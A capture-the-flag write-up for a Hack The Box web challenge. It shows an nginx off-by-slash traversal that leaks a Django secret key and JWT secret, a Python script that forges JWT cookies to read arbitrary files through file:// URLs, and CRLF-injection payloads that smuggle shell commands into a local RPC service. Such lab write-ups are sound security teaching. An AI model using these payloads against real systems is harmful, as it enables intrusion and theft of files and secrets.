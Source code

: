 # Hackbox

Writeup by [@AteamJKR](https://www.twitter.com/AteamJKR)

## Webpage

The web page for the challenge hinted into two directions:

* nginx off-by-slash

```
So, turns out setting up nginx with Django is a little harder than I anticipated. Apparently you need to configure nginx to serve the static files used for your web application as Django doesn't really know what to do with them?

Anyway, I think it should all be working fine now, for anyone interested, this is an example of what such a configuration would look like. Hope this helps someone, peace.

     
      location /static {
          include  /etc/nginx/mime.types;
          alias /code/blog/static/;
      }
```

* hackbot RPC protocol

```
Turns out passing arguments directly to shell commands via web HTTP requests is a bad idea (who would have guessed?). Thus, i've decided to implement a little go application which runs on localhost:1337, and accepts commands over TCP connections using my own custom text based RPC protocol. Pretty ingenius if I do say so myself.

When you run a utility on the utilities page, it makes a HTTP request saying what tool to run, and the relevant parameters. The backend code then uses this to make a call to the local service over a TCP connection.

For example, a command to run the ping module would look like:

exec ping -c 2 IP_ADDRESS
```

Also there were two pages `utils` and `ipdata`.

The `utils` page had a "Subdomain Lookup" and a "Ping of Deatch" form. The first form was trying to execute `dumpster` with the given domain on the box but segfaulted. The second page executed a ping to the given IP address (but anything besides 127.0.0.1) was blocked.
The `ipdata` page also had a form to query ipinfo.io or shodan.io for "your" IP. This IP was taken from the IP packet and then written into the session cookie. As no outbound requests were allowed this did not work.

## Off-by-Slash in nginx / 

http://docker.hackthebox.eu:30724/static../settings.py

This reveals the `settings.py` of the running Flask application:

```
(...)
# SECURITY WARNING: keep the secret key used in production secret!
SECRET_KEY = 'irowys6jwmjx@7tren6@#!!y)5k1k!cmgdbv&dqbh%f7v3rz$y'
JWT_SECRET = "YARE_YARE_DAZE"
(...)
```

## Using this JWT_SECRET

Using the JWT_SECRET we are able to craft abritrary session cookies. Therefore I first created a python script to read files using the ipdata function:

```
import jwt
import requests
import sys
JWT_SECRET = "YARE_YARE_DAZE"
payload = { 'data_url': 'file://' + sys.argv[1] }
jwt_cookie = jwt.encode(payload, JWT_SECRET, algorithm='HS256')
url = 'http://docker.hackthebox.eu:31203/ipdata/'
cookies = { 'ip_data_config': jwt_cookie }
r = requests.get(url, cookies=cookies)
print(r.text)
```

Using this technique I could exfil all files, i.e.:

```
python get.py /code/blog/views.py
python get.py /code/blog/urls.py
python get.py /code/blog/blogapp.py
python get.py /code/blog/blogapp
python get.py /code/blog/urls.py
python get.py /code/blogapp/views.py
python get.py /code/blogapp/helpers.py
python get.py /code/blogapp/init.py
python get.py /code/blogapp/views.py
```

The source for the blogapp utils page revealed following snippet:

```
        if util_name and argument:
            if util_name == "ping":
                cmd = f"exec {util_name} -c 4 {argument}\r\n"
            elif util_name == "dumpster":
                cmd = f"exec {util_name} {argument}\r\n"

        if cmd:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.connect(("127.0.0.1", 1337))
                s.sendall(bytes(cmd, 'utf-8'))
```

From the webpage we knew that the go binary on port 1337 will read from a TCP socket for `exec command-to-execute`. Unfortunately normal command injection did not work as it was not running in a shell thus no `$(...)` or backticks or even redirection was possible. But as the complete content from `argument` was being written to the TCP socket injection of CRLF was possible which I verified by touching a file and getting it again with `python.get`:

```
util_name=ping&argument=-c1+127.0.0.1%0d%0aexec+touch+/tmp/x
```

I tried to exfil the complete container but tar stopped when tar'ing `/sys`. Unfortunately the flag was not in the created tar and `--exclude` was not working from the busybox tar installed. After some fiddling I found following payload that I could use for redirection:

```
util_name=ping&argument=-c1+127.0.0.1%0d%0aexec+/bin/ash+-c+find${IFS}/>/code/blog/static/find.txt
```

This revealed the name of the flag-file `/random_string_this_is_the_flag.txt` that I could read with `python get.py ...`.
Flag is not known anymore. 

